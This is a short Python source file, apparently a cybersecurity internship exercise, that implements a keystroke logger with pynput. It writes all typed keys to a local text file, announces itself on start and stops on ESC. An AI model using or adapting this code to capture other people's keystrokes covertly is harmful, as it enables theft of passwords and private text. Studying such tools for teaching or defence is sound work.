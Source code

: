 # PRODIGY_CS_04
from pynput import keyboard

# File where logs will be stored
log_file = "key_log.txt"

def on_press(key):
    """Handles key press events and logs them to a file."""
    try:
        with open(log_file, "a") as f:
            # Check if the key has a character value
            if hasattr(key, 'char') and key.char is not None:
                f.write(key.char)
            else:
                f.write(f'[{key}]')  # Log special keys like Enter, Shift, etc.
    except Exception as e:
        print(f"Error: {e}")

def on_release(key):
    """Stops the listener if the escape key is pressed."""
    if key == keyboard.Key.esc:
        # Stop the listener
        return False

# Display an educational message for ethical awareness
print("Keylogger started. Press 'ESC' to stop recording keystrokes.")

# Start the keyboard listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
